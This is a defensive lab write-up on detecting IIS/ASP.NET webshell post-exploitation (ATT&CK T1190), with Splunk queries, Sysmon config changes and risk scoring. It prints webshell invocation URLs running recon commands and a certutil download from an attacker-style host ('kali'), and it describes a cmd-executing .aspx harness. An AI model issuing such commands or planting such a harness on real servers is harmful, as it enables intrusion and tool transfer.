


# T1190 — Exploit Public-Facing Application (IIS / ASP.NET Post-Exploitation)


# 1. Scenario

An adversary exploits an Internet-facing web application (here, an IIS/ASP.NET endpoint) to achieve code execution. Rather than detecting any single CVE, this lab detects the **behavioral outcome** of exploitation — the chain AN0219 describes:

```
(1) crafted request to public endpoint
 → (2) 4xx/5xx or unusual paths
 → (3) web-server process (w3wp.exe) spawns shell / LOLBins
 → (4) optional outbound callback
```

The detection thesis is **exploit-agnostic**: whether the entry point is ProxyShell, a Struts OGNL injection, or a deserialization bug, successful RCE on IIS manifests the same way at the endpoint — `w3wp.exe` spawning `cmd.exe`/`powershell.exe`/`certutil.exe`. A web-server worker process has **no legitimate reason** to launch a shell, so this lineage is near-certain post-exploitation regardless of the vulnerability used.

---

# 2. Lab Setup

| Component | Detail |
|---|---|
| Target | Windows 11, IIS + ASP.NET 4.8, Sysmon + Splunk (`Endpoint.Processes` DM) |
| Test harness | Minimal `.aspx` that runs `cmd.exe /c <query-param>` — a **detection test harness**, standing in for a real webshell/RCE |
| SIEM | Splunk, `datamodel=Endpoint.Processes` + `index=windows_sysmon` |

> **On the test harness:** no real CVE was exploited. A one-line `.aspx` calling `Process.Start("cmd.exe", "/c " + cmd)` was placed in `wwwroot` and invoked via `?cmd=`. This produces telemetry **identical** to what a real webshell or ProxyShell RCE yields — `w3wp.exe → cmd.exe` — because the detection keys on behavior, not on the exploit method. This is a defensive lab on the analyst's own server, not an attack.

> **AV note:** Microsoft Defender flagged and quarantined the `.aspx` on write (signature-based webshell detection). `wwwroot` was excluded for telemetry generation. This is itself instructive — see §6.

---

# 3. Execution

The harness was invoked with a sequence of commands emulating hands-on-keyboard post-exploitation:

```
http://localhost/shell.aspx?cmd=whoami
http://localhost/shell.aspx?cmd=ipconfig /all
http://localhost/shell.aspx?cmd=net user
http://localhost/shell.aspx?cmd=systeminfo
http://localhost/shell.aspx?cmd=certutil -urlcache -f http://kali/x.txt
```

Each ran as `w3wp.exe → cmd.exe /c <command>` under the IIS application-pool identity `DefaultAppPool`.

---

# 4. Telemetry

### 4.1 Endpoint lineage (the core signal)

`Endpoint.Processes` records — all under `user=DefaultAppPool`, the IIS worker identity:

```
16:15  w3wp.exe → cmd.exe  /c certutil -urlcache -f http://kali/x.txt
16:15  w3wp.exe → cmd.exe  /c net user
16:15  w3wp.exe → cmd.exe  /c systeminfo
16:14  w3wp.exe → cmd.exe  /c ipconfig /all
16:09  w3wp.exe → cmd.exe  /c whoami
```

The `DefaultAppPool` identity is a key contextual signal: a web worker running interactive shell commands is almost never legitimate.

### 4.2 A benign FP surfaced — `csc.exe`

The first query pass also caught:

```
w3wp.exe → csc.exe  ...\Temporary ASP.NET Files\...
```

This is **benign**: `csc.exe` is the C# compiler that ASP.NET invokes the first time an `.aspx` is compiled. It is filtered out by scoping the rule to shell/LOLBin `process_name`s only (`cmd`, `powershell`, `certutil`, …) rather than *all* `w3wp` children — the FP is excluded by design before scoring.

### 4.3 Webshell file creation (EID 11)

```
16:30:38  Notepad.exe → C:\inetpub\wwwroot\shell.aspx
```

Written by `Notepad.exe` here because the harness was created manually. In a real exploitation the writer would be `w3wp.exe` itself — see §5.2.

---

# 5. Detection Logic

### 5.1 Layer 1 — Web-process → shell/LOLBin lineage (primary rule)

[SPL-Query](../../Rules/Splunk-SPL/Initial-Access/exploit-public-app.spl)

**`impact` is fixed high (90), `confidence` grades the stage.** A web worker spawning a shell is anomalous by itself — unlike the "suspicious but possibly benign" cmd.exe parents in the execution lab, `w3wp → cmd` is almost always malicious. So base impact is high; confidence only distinguishes *how far* the intrusion has progressed:

| Stage | Signal | confidence | risk (×90, +apppool) |
|---|---|---|---|
| Tool download | `certutil`/`bitsadmin`/`curl` | 0.90 (+0.05) | **85.5** |
| Recon | `whoami`/`ipconfig`/`net`/`systeminfo` | 0.75 (+0.05) | **72.0** |
| Generic shell | anything else | 0.60 (+0.05) | **58.5** |

Validated output ordered exactly this way — `certutil` download on top at 85.5, recon burst at 72, an unmatched typo (`system info`) at 58.5. In an RBA feed, the analyst sees the download (highest-progression stage) first.




### 5.2 Layer 2 — Webshell file creation (EID 11)

A prerequisite discovery: **the default SwiftOnSecurity Sysmon config does not log `.aspx`/`.jsp`/`.php` file creation.** Its FileCreate rules target `.exe`/`.dll`/`.ps1`/autostart paths; web-shell extensions were invisible. The `shell.aspx` drop produced **no EID 11** until the config was extended:

```xml
<TargetFilename condition="end with">.aspx</TargetFilename>
<TargetFilename condition="end with">.jsp</TargetFilename>
<TargetFilename condition="contains">\wwwroot\</TargetFilename>
```

After the fix (and Sysmon reload), the file-create event was captured. Detection then scores by *writer*:

```spl
index=windows_sysmon EventCode=11
  (TargetFilename="*\\wwwroot\\*" OR TargetFilename="*\\ClientAccess\\*" OR TargetFilename="*\\owa\\*")
  (TargetFilename="*.aspx" OR TargetFilename="*.asmx" OR TargetFilename="*.ashx" OR TargetFilename="*.jsp" OR TargetFilename="*.php")
| eval writer=lower(Image)
| eval writer_is_webproc=if(match(writer,"(w3wp|tomcat|java|php-cgi|httpd|nginx)"),1,0)
| eval writer_is_shell=if(match(writer,"(cmd|powershell|certutil|bitsadmin)"),1,0)
| eval impact=case(writer_is_webproc==1 OR writer_is_shell==1, 90, true(), 50)
| eval confidence=case(writer_is_webproc==1, 0.90, writer_is_shell==1, 0.85, true(), 0.40)
| eval risk_score=round(impact*confidence,2)
| table _time Image TargetFilename User writer_is_webproc writer_is_shell risk_score
| sort - risk_score
```



The lab's manual creation (`Notepad.exe`) scored **risk 20** (`writer_is_webproc=0` → impact 50 × 0.40), correctly treated as low-priority (could be a legitimate deployment). A real exploitation where **`w3wp.exe` writes the `.aspx`** would score **81** (impact 90 × 0.90) — the writer distinguishes an attacker dropping a shell from an admin deploying a page. This is the key insight: *who writes the web-shell* matters more than *that a web-shell exists*.

### 5.3 Layer 3 — Egress callback (EID 3)

The `certutil -urlcache -f http://kali/...` command was already scored at the command layer (§5.1, `is_download`, risk 85.5). The actual outbound connection failed in the lab (Kali unreachable), but this does not affect detection — the *attempt* is captured at process-execution time, before any network egress, exactly as the LSASS lab captured a dump attempt that PPL blocked. A production Layer-3 rule would flag web-process egress to non-allowlisted IPs (a hallmark of Log4Shell LDAP/RMI callbacks and reverse shells):

```spl
index=windows_sysmon EventCode=3
  Image IN ("*\\w3wp.exe","*\\java.exe","*\\tomcat*.exe","*\\php-cgi.exe")
  NOT DestinationIp IN ("10.0.0.0/8","172.16.0.0/12","192.168.0.0/16","127.0.0.1")
| table _time Image DestinationIp DestinationPort User
```

---

# 6. Signature vs Behavior — why this matters

Defender caught the `shell.aspx` **file** by signature but not the **execution behavior**. This is the core argument for behavioral detection: a signature catches known web-shell bytes, but a polymorphic/obfuscated shell — or a fileless RCE that never writes to disk — evades it. The `w3wp → cmd` lineage (Layer 1) fires regardless of the shell's file signature or whether a file exists at all, because it detects the *outcome* (a web worker running a shell), not the artifact. Defender flagging the file actually reinforces this: file-signature and behavioral detection are complementary layers, and the behavioral one is exploit- and payload-agnostic.

---

# 7. Validation

- **Layer 1** produced graded, correctly-ordered risk on real telemetry: download 85.5 > recon 72 > generic 58.5, all under `DefaultAppPool`.
- **`csc.exe` FP** excluded by design (process_name scoping).
- **Layer 2** required and received a config fix; manual write scored 20, real `w3wp` write would score 81.
- **Layer 3** captured at command layer despite the egress itself failing.

---

# 8. Limitations

- **Layer 1 depends on parent-process lineage in the data model.** If a sensor misses the `w3wp → cmd` parentage (e.g. PPID spoofing, or a sensor gap), the primary signal is lost.
- **Config gap was real and default.** Out-of-the-box SwiftOnSecurity does not log web-shell file creation; every IIS/Tomcat deployment using it has this blind spot until the FileCreate rules above are added.
- **Layer 2 writer-scoring needs deployment tuning.** Legitimate CI/CD or admin deployments write `.aspx` to `wwwroot`; those writers (deployment agents, `msdeploy`) should be allowlisted so only anomalous writers (`w3wp`, `cmd`, `powershell`) score high.
- **Lab used a test harness, not a real CVE.** The endpoint telemetry is identical to real RCE, but the request-layer signals (WAF blocks, 5xx spikes — AN0219 steps 1-2) were not generated here; a full deployment correlates web-access/WAF logs with this endpoint chain.

---

# 9. ATT&CK Mapping

| Technique | Name | Evidence |
|---|---|---|
| **T1190** | **Exploit Public-Facing Application** | **`w3wp.exe → cmd.exe` under `DefaultAppPool`** |
| T1505.003 | Server Software Component: Web Shell | `.aspx` written to `wwwroot` (Layer 2) |
| T1105 | Ingress Tool Transfer | `certutil -urlcache -f http://...` (risk 85.5) |
| T1059.003 | Windows Command Shell | `cmd.exe /c` execution chain |
| T1082 / T1016 / T1033 / T1087 | Discovery | `systeminfo` / `ipconfig` / `whoami` / `net user` |

---

# 10. Defensive Recommendations

- **Alert on any web-server worker (`w3wp`/`tomcat`/`java`/`php-cgi`) spawning a shell or LOLBin** — near-zero legitimate use; this is the single highest-value T1190 signal.
- **Add web-shell FileCreate monitoring** (`.aspx`/`.jsp`/`.php` under web roots) to the Sysmon config — the default omits it.
- **Score web-shell drops by writer**, not mere existence, to separate attacker drops from deployments.
- **Baseline and alert on web-process egress** to non-allowlisted external IPs — catches callbacks independent of the exploited CVE.
- **Combine with WAF/access-log correlation** (AN0219 steps 1-2) so the request anomaly and the endpoint outcome reinforce into one incident.